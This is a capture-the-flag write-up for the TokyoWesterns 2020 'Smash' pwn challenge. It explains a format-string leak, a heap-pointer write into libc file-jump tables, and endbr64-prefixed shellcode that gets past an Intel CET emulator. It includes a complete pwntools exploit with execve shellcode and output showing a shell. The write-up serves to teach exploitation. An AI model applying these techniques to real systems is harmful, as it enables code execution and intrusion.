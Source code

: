 ```yaml
---
layout: "post"
title: "Smash - TokyoWesterns CTF 2020"
date: 2020-09-22
tags: [Format Strings, File Structures, Shellcode, Shadown Stack, CTF]
---
```



**tl;dr**

+ Leak with Format String bug.
+ Use the arbitrary heap pointer write to overwrite `__GI__IO_file_jumps`.
+ Inject shellode in heap and get code execution in `dfprintf`.

<i!--more-->

**Challenge Points:** 388
**Solves:** 9

We really had a great time this weekend playing this year's edition of TokyoWesterns CTF. In this post I'd like to share the intended solution for the challenge **Smash** which we could not solve during the CTF but the idea and the concept involved is worth sharing.

## Challenge description

To begin with , we've been provided with the challenge binary , `libc 2.31`, a runner bash script and a folder containing Intel's tool called Control-flow Enforcement Technology (CET).This was our first tackel with Intel's CET and the concept involved is truly worth sharing. 

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

All mitigations except canary have been enabled.

## Reversing

+ The input name function takes 0x20 bytes of user input and then does an `strdup` which stores our input on heap.
+ Next , `dprintf` is called on our input without any format specifier, hence we can leak required addresses with the format string bug.
+ After this , we're asked to enter `y` or `n` and if `y` is entered , the program further asks for another `input message` and then takes in another 0x38 bytes of input.
+ If `n` is entered , the program prints `Bye` with dprintf and directly exits.

Pretty straight forward, but where are the bugs?

## Exploit development

We actually have 2 overflows which let us corrupt rbp and pivot to almost anywhere, but wait, CET doesn't allow us to execute ROP chain directly. We have to find a way to get code execution.

### How Intel's CET works

Control-Flow Enforcement Technology promises to guard a binary against attacks such as ROP, JOP etc. It does so by allocating a `shadow stack` in mapped memory region. Whenever a function is called, apart from storing the return address on the program's thread stack , it also stores it on the shadow stack. So whenever the program returns from the function, the return address is comapared with the one stored on the shadow stack , if a match is found, the program executes smoothly,  and if not , the program aborts thus mitigating ROP.

Intel SDE provides an emulation that includes:

* Stack checks
* Indirect branch checks

From the above discussion, one thing gets clear , every function that is executed in the supervision of CET needs to begin with `endbr64`. Let's just bear that in mind and continue.

## In search of arbitrary write

Since we have our required leaks , we can now corrupt rbp with our first overflow in the step where program asks us to enter `y` or `n`. 

An important observation to be made here is that , after reading our input and storing on heap with strdup, the program copies the heap pointer to an offset of `rbp-0x8`.

Since , we overwrote rbp with an address of our choice , after the function executes `leave` , the rbp will be updated with the value that we specified.

Immediately after that, the following instructions copy the heap pointer storing our input to `rbp-0x8`.

```sh
mov    QWORD PTR [rbp-0x8],rax
mov    rax,QWORD PTR [rbp-0x8]
```

Thus , we have an arbitrary write of a heap pointer.

## Defeating CET

After analyzing a bit ,  we found out that the emulator that the CTF has provided us with does not check for the `NX` bit and few pages have been marked `read-write-executable` allowing us to now inject shellcode.

Now that we can execute shellode, we have to now select a target to get code execution.

## dprintf to the rescue

One important aspect of dprintf is that it uses a `temporary file structure` to carry out it's operations. With file structure operations, we can find out apt targets to get code execution. One such target function pointer is `_IO_new_file_finish` which is called internally inside `dprintf`. 

So , now our plan is :

+ Overwrite rbp to point to `_IO_new_file_finish + 8`.
+ Copy heap address to `_IO_new_file_finish`.
+ Fill heap with shellcode as CET doesn't implement NX.
+ Get code execution in dprintf.

Here's the full exploit code.

```py

from pwn import *
import sys

LIBC = ELF('./libc-2.31.so',checksec = False)
if(len(sys.argv)>1):
    io=remote("pwn01.chal.ctf.westerns.tokyo",29246)
    context.noptrace = True
else:
    io=process("./smash")

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


if __name__ == "__main__":
    gdb.attach(io)
    sla('> ','%p '*9)
    re(55)
    stack = int(re(14),16)
    log.info("stack = " + hex(stack))
    re(1)
    code = int(re(14),16) - 0x1216
    log.info("code = " + hex(code))
    re(7)
    libc = int(re(14),16) - 0x270b3
    log.info("libc = " + hex(libc))
    target_stack = code + 0x40e8 #to be changed
    inp = stack - 0x60
    IO_file_jumps = libc + 0x1ed4a0
    pop_rdi = code + 0x000013d3
    payload  = b"\xf3\x0f\x1e\xfa" # endbr64
    payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    payload += b"\x90" * (0x30 - len(payload))
    payload += p64(IO_file_jumps + 0x10 + 8)[:6]
    sa('[y/n] ',payload)
    #sla('message > ','write to shadow')
    io.interactive()
```

Remember that the shellcode has to be started with `endbr64` instruction to bypass the indirect branch instruction check.

```console
[+] Opening connection to pwn01.chal.ctf.westerns.tokyo on port 29246: Done
[!] Skipping debug attach since context.noptrace==True
[*] stack = 0x7fffc7eb4d00
[*] code = 0x55a74550c000
[*] libc = 0x7f498f5bb000
[*] Switching to interactive mode

Bye!
$ ls
flag.txt
run.sh
sde
sde.tgz
smash
$ cat flag.txt
TWCTF{17_15_ju57_4n_3mul470r,n07_r34l_CET}
```


## Conclusion

This was one of the most interesting challenges I had come across in a while. The idea of a faulty emulator and CET was really cool. Kudos to team TokyoWesterns for such a cool challenge and such an awesome CTF.
